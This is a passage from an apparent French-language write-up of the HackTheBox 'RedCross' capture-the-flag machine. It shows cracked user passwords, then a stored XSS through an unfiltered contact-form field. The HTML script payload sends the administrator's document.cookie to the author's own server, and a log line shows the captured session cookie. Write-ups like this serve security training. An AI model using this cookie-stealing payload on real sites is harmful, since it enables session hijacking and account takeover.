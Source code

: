 Next-step, casser les hashs bien sûr. JTR a fait ça très bien. L'algo de hash utilisé ici est toutefois assez fort ce qui est un peu regrettable sur un CTF (ça privilégie les participants ayant un GPU et ça n'apporte rien sur le plan technique).  

```plain
guest:guest
charles:cookiemonster
penelope:alexss
```

Ces identifiants ne nous ouvrent pas la porte de la section *admin* mais les messages demandant aux utilisateurs de ne pas consulter les messages laissent supposer qu'il y a une faille XSS quelque part.  

Call Me
-------

Retour sur le formulaire de contact. Si on rentre du HTML dans la partie *Request* ou *Details* on obtient un message indiquant que l'attaque est détectée et qu'on a été bloqué par le *input filtering* mentionné plus haut.  

Le dernier champ du formulaire permettant de laisser un email ou un numéro de téléphone ne semble en revanche pas vérifié.  

Du coup on peut tester en essayant de provoquer le chargement d'une image vers un serveur web sous notre contrôle. On n'oublie pas de lancer un wireshark pour avoir la totalité de la requête avec le user-agent :  

![HackTheBox CTF RedCross PhantomJS user-agent](https://github.com/devl00p/blog/raw/master/images/htb/redcross/redcross_phantomjs.png)

On voit ici qu'une action humaine est émulée via l'emploi du navigateur headless PhantomJS.  

L'objectif est maintenant d'obtenir le cookie de l'administrateur. Pour cela on va forger une URL contenant le cookie et l'injecter dans le DOM sous forme d'une image :  

```html
<script>var img = document.createElement("img"); img.src = "http://10.10.12.5/?" + encodeURI(document.cookie); document.body.appendChild(img);</script>
```

Groovy :)

```plain
10.10.10.113 - "GET /PHPSESSID=cg9l76l7f755ki5v0iufj1vob5;%20LANG=EN_US;%20SINCE=1546424177;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Une fois le cookie injecté dans notre navigateur (par exemple avec *Cookie Manager* sous Firefox) on peut accéder au *control panel* qui propose une gestion utilisateurs :  
